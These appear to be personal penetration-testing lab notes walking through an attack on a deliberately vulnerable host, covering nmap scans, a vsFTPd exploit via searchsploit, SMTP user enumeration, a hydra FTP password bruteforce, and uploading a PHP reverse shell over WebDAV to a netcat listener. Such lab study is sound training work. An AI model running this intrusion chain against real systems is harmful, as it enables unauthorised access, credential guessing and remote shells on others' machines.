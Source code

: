 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploit vsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod -x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- nmap -sV -p 25 ip (SMTP)
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- pwd (if result is /home/service that that confirms that this is a user-account)
- cd /
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- cd /var/www
			- cd dav (only have rights to change this directory)
			- put shell.php 
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)

	




























#### Targeting PHP

#### Targeting SAMBA 
